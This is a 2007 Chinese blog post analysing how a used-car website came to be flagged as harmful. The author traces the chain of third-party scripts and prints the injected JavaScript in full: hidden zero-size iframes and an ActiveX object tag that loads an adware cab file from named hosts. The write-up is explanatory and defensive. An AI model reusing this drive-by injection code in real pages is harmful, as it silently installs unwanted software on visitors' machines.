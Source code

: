 ```yaml
---
title: 一段Script引发的“冤案”
date: 2007-04-24 14:59:47 + 0080
category: [Web开发]
tags: [Web, Debugging]
---
```



用 Google 搜索关键字：西安二手车，发现这个网站的下面多了一段警告。提示：**This site may harm your computer.** 本网站可能危害您的电脑。点击link后google会弹出一个更大的警告让你不去访问这个网站。  
![alert](/assets/attachments/2007/04/24_145646_nkcqimage1.gif)  
看到这个提示，十分佩服 Google。把搜索和查毒集成在一起了。Google的搜索引擎真是牛。可是为什么 Google 会认为这个网站有问题会 **harm your computer**。进入 Google 对此内容的解释：  

> This warning message appears with search results that weve identified as sites that may install malicious software on your computer. We want our users to feel safer when they search the web, and were continuously working to identify such dangerous sites and increase protection for our users.  

看来是这个站点会在用户浏览时安装恶意的程序。  
升级了诺顿，冲入这网站探个究竟。刚一进如后就发现诺顿提示有病毒。  
![risks](/assets/attachments/2007/04/24_145716_b91eimage2.gif)  
看来这个网站真的是有问题。到底这个网站那里出了问题，是站长故意把病毒放在里面了？还是什么问题。进入病毒的描述信息  

```  
Updated: February 13, 2007 11:51:32 AM  
Type: Adware  
Publisher: HDT, Inc  
Risk Impact: High  
File Names: iebar22.0.dll barhelp22.0.dll  
Systems Affected: Windows 2000, Windows 98, Windows Me, Windows NT, Windows Server 2003, Windows XP  
Behavior  
Adware.Iebar is a Browser Helper Object that displays advertisements and downloads files  
Symptoms  
Your Symantec product detects this threat as Adware.Iebar.  
Unexpected advertisements appear in Internet Explorer browser windows.  
```
看来是 `IE` 恶意插件。
用 `http` 请求跟踪工具，看看浏览器请求了什么。
![requests](/assets/attachments/2007/04/24_145800_3zs7image3.gif)  
看到`iebar.t2t2.com /iebar.cab application/octet-stream`。这一行真相大白了。是这个网站加载了这个恶意文件。当用户浏览时要求用户下载。看来Google真厉害，把网站上的这种动作都记录下来并分析了。  

要求用户访问下载这个 `iebar.cab`，Render 过来对应的 html 是什么呢。是用 `iframe src` 请求下载，使用 `image src script src` 是什么样一种方式呢？再次进入跟踪。发现是：  
`iebar.t2t2.com /test1.htm` 这一行 Render 了这样的代码：

```html
<script language=javascript>  
//......   
if (GetCookie("today_install")==null)  
{ 
    document.write("<object id=InitObj classid=clsid:56A7DC70-E102-4408-A34A-AE06FEF01586 height=0 width=0 CODEBASE=http://iebar.t2t2.com/iebar.cab#Version=1,1,0,0></object>");
}  
//......  
</script>
```

其中的:  
`document.write("<object id=InitObj classid=clsid:56A7DC70-E102-4408-A34A-AE06FEF01586 height=0 width=0 CODEBASE=http://iebar.t2t2.com/iebar.cab#Version=1,1,0,0></object>");`  
是“元凶”要求用户下载并安装这个恶意插件。

是谁请求的 `/test1.htm？`  
查看 `stat1.vipstat.com /stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24 text/html` 这一行，它 Render 了这样的代码：  
```js
if (isinstall==1) {
    SetCookie(cookieKey,pid +"|" + unionid + "|" + sid,1);
    document.write("<iframe width=0 height=0 src=\"http://iebar.t2t2.com/test1.htm\" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=yes><\/iframe>");
}
```

是 `document.write("<iframe width=0 height=0 src=\"http://iebar.t2t2.com/test1.htm\" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=yes><\/iframe>")` 是Javascript 动态添加的 Iframe带入的恶意脚本。

是谁请求的 `/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24`  
查看 `stat.t2t2.com /log/log1.asp?default&user=zgchecom text/html` 这一行，它请求 Render 回来了：
```js  
function GetCookie(sName)  
{  
    var aCookie = document.cookie.split("; "); 
    for (var i=0; i < aCookie.length; i++) 
    {  
        var aCrumb = aCookie[i].split("="); 
        if (sName == aCrumb[0])  
        return unescape(aCrumb[1]); 
    }  
    return null;  
}  

cookieName="comt2t2"; 
isCookie = GetCookie(cookieName);

if ( isCookie != ok)  
{  
    document.write('<iframe width=0 height=0 src="http://stat1.vipstat.com/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=yes></iframe>');
}
```
又是 Javascript 动态添加的 iframe 带入的恶意脚本。  
是谁请求了`/log/log1.asp?default&user=zgchecom`  
查看 `stat.t2t2.com /stat.js application/x-javascript` 这一行 Render 回来的脚本：   

```js
var tc_user;  
document.write("<a href=http://www.textclick.com/viewmain.asp?name=+tc_user+ target=_blank><img src=http://stat.t2t2.com/stat.gif border=0></a>");  
if (tc_user==null) tc_user="";
document.write('<iframe width=0 height=0 src="http://stat.t2t2.com/log/log1.asp?default&user=+tc_user+" frameborder=no border=0 MARGINWIDTH=0 MARGINHEIGHT=0 SCROLLING=no></iframe>');
```

还是 Javascript 动态添加的 iframe 带入的恶意脚本。  
这几次绕来绕去，都没有看到 w`ww.zgche.com` 我们实际访问的站点。  
在 `http://www.zgche.com/index.asp` Render 回来的 html 终于找到加载 `stat.t2t2.com/stat.js` 的代码：  

```html
<script language="javascript" src="http://count16.51yes.com/click.aspx?id=162936015&logo=8"></script>  
<script>var a="zgchecom";</script>
<script>var tc_user="zgchecom";var tc_class="18";</script>
<script src="http://stat.t2t2.com/stat.js"></script>  
```

终于整个加载的线路清楚了。
```  
http://www.zgche.com/index.asp ->  
http://stat.t2t2.com/stat.js ->  
http://stat.t2t2.com/log/log1.asp?default&user=zgchecom -> http://stat1.vipstat.com/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24 ->  
http://iebar.t2t2.com/test1.htm ->  
http://iebar.t2t2.com/iebar.cab  
```

通过上面的加载。恶意的程序最终 Render 成 `<object id=InitObj classid=clsid:56A7DC70-E102-4408-A34A-AE06FEF01586 height=0 width=0 CODEBASE=http://iebar.t2t2.com/iebar.cab#Version=1,1,0,0></object>` 让浏览器来解释。浏览器看到 `object activeX` 要求用户安装。恶意程序通过这个手段安装到用户的机器上了。 

**好曲折的步骤。恶意程序十分会隐藏自己。**  

最终找到恶意程序。但是从上面的分析最初用户访问的`www.zgche.com`并没有 “问题”。不是站长放入了恶意程序。它完全是被“牵连”的。是 `stat1.vipstat.com/stat/IEBarInstall_TC.htm?pid=27902&unionid=4&sid=18458&ktime=24` 加载了恶意成程序。是 `stat1.vipstat.com` 出了问题。但 Google 认为是它出了问题。Google 站在访问者的角度来看待问题。在 Google的 link: `www.stopbadware.org/home/help` 看到 stopbadware 建立了一个数据库，存储这些恶意站点的信息，建立了黑名单。支持申诉。猜想 Google 是分析这个页面的请求，当请求 `http: //iebar.t2t2.com/iebar.cab` 这种在黑名单的地址就认为这个网站是有恶意的网站。最初在建立这个黑名单时，是用这种最终存放恶意程序的地址为源头，来搜索谁请求了他们。然后记录下这些直接请求的地址。然后再看谁请求了这些地址。再次加入黑明单。这样层层的加入来扩张黑名单的数据库。  

**问题的根本原因是一段 Script 的多重加载，加载了恶意程序。** 
